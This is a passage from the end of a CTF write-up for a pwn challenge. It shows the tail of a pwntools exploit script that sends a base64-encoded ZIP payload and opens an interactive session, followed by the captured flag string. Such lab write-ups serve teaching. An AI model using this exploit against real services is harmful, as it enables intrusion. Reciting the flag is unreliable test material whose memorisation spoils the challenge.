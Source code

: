 ```python
        print(sms)
        p.sendline(b"UEsDBAoAAAAAANGIwVaLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAP6s3hk+rN4ZHV4CwABBOgDAAAE6wMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAANGIwVaLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAA/qzeGR1eAsAAQToAwAABOsDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA")
        print(p.recv())
        break

print('terminate')
p.interactive()
```

## Flag

![flag](/assets/img/CTFs/404CTF2023/pwn/cache-cache_%3A_le_retour/flag.png)

We have the flag 🥳 !

Flag: 404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}

## Conclusion

I hope you understood and learned some things in this writeup.
















